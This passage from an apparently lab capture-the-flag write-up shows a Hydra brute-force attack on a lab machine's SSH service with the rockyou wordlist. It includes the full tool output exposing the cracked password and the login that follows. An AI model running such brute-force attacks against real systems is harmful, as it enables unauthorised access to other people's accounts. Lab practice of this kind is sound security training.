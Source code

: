 we got the user : jan

## Task 5: Brute Force the User's Password to SSH in

### Hydra Brute Force

Using Hydra to brute force SSH login:

```bash
┌──(root㉿neo)-[~]
└─# hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.125.210
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-06-22 16:26:37
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.125.210:22/
[STATUS] 156.00 tries/min, 156 tries in 00:01h, 14344245 to do in 1532:31h, 14 active
[STATUS] 98.67 tries/min, 296 tries in 00:03h, 14344105 to do in 2422:60h, 14 active
[STATUS] 102.29 tries/min, 716 tries in 00:07h, 14343685 to do in 2337:12h, 14 active
[22][ssh] host: 10.10.125.210   login: jan   password: armando
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-06-22 16:35:06
```
We Cracked The Username and Password 

User: ``jan``  
Password: ``armando``

## Lets Login to ssh with the these credentials

```bash
┌──(root㉿neo)-[~]
└─# ssh jan@10.10.125.210 
The authenticity of host '10.10.125.210 (10.10.125.210)' can't be established.
ED25519 key fingerprint is SHA256:XKjDkLKocbzjCch0Tpriw1PeLPuzDufTGZa4xMDA+o4.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.125.210' (ED25519) to the list of known hosts.
jan@10.10.125.210's password: 
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-119-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.
```